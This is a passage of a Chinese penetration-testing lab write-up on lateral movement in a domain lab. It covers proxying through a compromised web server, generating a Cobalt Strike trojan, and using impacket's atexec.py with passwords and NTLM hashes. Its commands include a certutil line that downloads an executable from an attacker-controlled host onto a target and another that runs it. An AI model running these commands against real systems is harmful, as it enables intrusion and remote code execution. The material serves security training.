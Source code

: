 ### 3、利用ipc建立连接（利用工具）

#### 1）首先设置代理转发

首先，为了能够在我们本地使用impacket-0.11.0对目标靶机的内网进行渗透测试，我们首先需要在web服务器开启代理转发功能：

![截图](651f82030136b70e89fc0b4895f60425.png)

![截图](41f73ec10988406e81a52d32c94c0508.png)

然后打开proxifier进行代理设置：

![截图](b2a4432f484d1ae71ca153f6af5a51da.png)

这时候我们电脑的主机就可以访问到内外的web服务器了：

![截图](b650953a3e9be7520c1ca0f665df1ebc.png)

#### 2） 生产反弹shell并上传到webserver中。

反弹shell：利用web服务器转发内网的流量到我们的cs上 ==》 使用转发上线的功能：

![截图](e29a4aa4d29f8cefb83ad6d2c75e3da7.png)

![截图](3762aef74d482cdc549671f17317d02c.png)

这里我们需要写上能够互联的内外的ip，即192.168.3.* ==》 然后再cs中就会出现一个监听器：

![截图](684a8ff5e4c00948c8705a448625c94e.png)

然后，利用这个监听器生成木马，并上传到web服务器上。接下来，我们将木马上传到web服务器对应的根目录下：

![截图](ef6bb63abaf0bfa801fcf9ef497a89d1.png)

![截图](3fe492edb39cd9341255ac266f1baf8b.png)

#### 3） 利用mpacket中的atexec.py来进行测试

然后这时候就需要利用impacket中的atexec.py来进行测试域内的ipc连接并下载我们制作的fantanshell了。 常见的命令如下：

```python
python atexec.py god/administrator:Admin12345@192.168.3.21 "ver"
python atexec.py ./administrator:Admin12345@192.168.3.21 "ver"
python atexec.py -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
```

```python
atexec.py 【域内或者本地组（本地用.代替）】/【用户名】:【密码】@【IP】 "【命令】"
           -hashes :【hash形式的密码】
```

这里，我们设置了如下的两条命令来进行下载木马并执行上线：

```python
# 下载
python .\impacket-0.11.0\examples\atexec.py ./Administrator:admin!@#45@192.168.3.29  "certutil -urlcache -split -f http://192.168.3.31/3.exe c:/y.exe"
#执行
python .\impacket-0.11.0\examples\atexec.py ./Administrator:admin!@#45@192.168.3.29 "c:/y.exe"
```
